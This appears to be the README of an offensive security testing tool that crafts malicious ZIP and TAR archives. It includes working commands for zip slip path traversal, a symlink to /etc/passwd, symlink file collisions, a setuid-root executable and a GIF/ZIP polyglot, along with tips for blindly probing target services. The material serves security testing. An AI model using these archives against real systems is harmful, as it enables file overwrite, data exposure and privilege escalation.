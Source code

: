 # Archive Alchemist

Archive Alchemist is a tool for creating specially crafted archives to test extraction vulnerabilities.
![](art.png)
<!-- ASCII art by jgs from https://ascii.co.uk/art/science -->

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify
- Multiple helper commands: extract, list, read
- Create polyglot files (prepend archive with data + adjust headers)

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

See [Documentation](docs/index.md)


### Tips

#### Suggested working directory setup

The most convenient way to test multiple payloads/tests for an archive is to use a local working directory and the `replace` command with `--content-directory` flag to "sync" the local directory to the archive:

1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Make changes to file(s) in `workingdir/`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Test using `target_poc.zip`
5. GOTO #2

#### Blind detect symlink support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/file2.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Change `bla/file.json` to a symlink to `bla/file2.json`: `./archive-alchemist.py target_poc.zip replace --symlink file2.json "bla/file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports symlinks!

#### Blind detect path traversal support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/blu/file.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Add `bla/blu/../file.json` to the archive: `./archive-alchemist.py target_poc.zip add --content-file "workingdir/bla/blu/file.json" "bla/blu/../file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports path traversal! (Although there might be additional checks to make sure that you dont traverse outside of the target directory)

#### Blind detect absolute path support

I havent really come up with a good generic way to test for this, but you could try changing `some/file.txt` to `/proc/self/cwd/some/file.txt`, and see if that works. Relying on proc filesystem and hoping that its cwd is the same as the extraction directory is not ideal, but its something.

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

#### Polyglot File

```bash
# Create a file that's a valid ZIP and starts with GIF magic bytes
./archive-alchemist.py polyglot.gif add payload.txt --content "hello there"
./archive-alchemist.py polyglot.gif polyglot --content "GIF89aI am totally a GIF file"
```